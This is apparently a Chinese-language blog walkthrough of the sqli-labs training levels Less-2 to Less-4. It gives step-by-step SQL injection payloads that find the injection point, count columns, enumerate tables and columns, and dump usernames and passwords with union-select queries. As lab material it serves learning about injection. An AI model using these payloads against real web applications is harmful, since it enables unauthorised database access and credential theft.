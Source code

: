```yaml
---
layout: post
title: SQL报错注入(less2,less3,less4)
date: 2021-06-01 17:55 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 LESS2-布尔型注入](#0x0-less2-布尔型注入)
- [0x1 LESS3-字符型注入(单引号带括号)](#0x1-less3-字符型注入单引号带括号)
- [0x2 LESS4-字符型注入(双引号带括号)](#0x2-less4-字符型注入双引号带括号)

<!-- /TOC -->
## 0x0 LESS2-布尔型注入
- 正常访问  
![](/images/20210601-1.png)
- 引号报错  
![](/images/20210601-2.png)
- 判断注入点  
`?id = 1 and 1=1 #`  
`?id = 1 and 1=2 #`
![](/images/20210601-3.png)
- 测列数  
`?id = 1 and 1=1 order by 4 #`  
![](/images/20210601-4.png)
- 测数据显示点  
`?id=-1 and 1=1 union select 1,2,3 #  //注意id改成-1`  
![](/images/20210601-5.png)  
- 测试数据库名和用户权限  
`?id=-1 and 1=1 union select 1,datebase(),user() #`  
![](/images/20210601-6.png)  
- 测表名  
`?id=-1 and 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() #`  
![](/images/20210601-7.png)
- 测列名  
`?id=-1 and 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`  
![](/images/20210601-8.png)
- 测字段  
`?id=-1 and 1=1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users #`  
![](/images/20210601-9.png)

## 0x1 LESS3-字符型注入(单引号带括号)
- 报错信息  
![](/images/20210601-10.png)
根据报错信息可以推断存在一个括号  
![](/images/20210601-11.png)
实际表现为  
`select ('id=1') and 1=2 --+) //--+后被注释掉`  
等价于  
`select ('id=1') and 1=2`  
- 测列数  
`?id=1') and 1=1 order by 4--+`  
![](/images/20210601-12.png)
- 测数据显示点  
`?id=-1') and 1=1 union select 1,2,3--+`  
![](/images/20210601-13.png)
- 测试数据库名和用户权限  
`?id=-1') union select 1,database(),user() --+`  
![](/images/20210601-14.png)
**之后步骤与LESS-2一致**  

## 0x2 LESS4-字符型注入(双引号带括号)
- 报错信息  
![](/images/20210601-15.png)
- 注入点  
`?id= 1") and 1=2 --+`  
![](/images/20210601-16.png)
- 测数据显示点  
`?id= -1") union select 1,2,3 --+`  
![](/images/20210601-17.png)
- 测试数据库名和用户权限  
`?id= -1")  union select 1,database(),user() --+`  
![](/images/20210601-18.png)
- 测表名  
`?id= -1")  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`  
![](/images/20210601-19.png)
- 测字段  
`?id= -1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'  and table_schema=database()--+`  
![](/images/20210601-20.png)
- 测数据  
`?id= -1") union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users--+`  
![](/images/20210601-21.png)
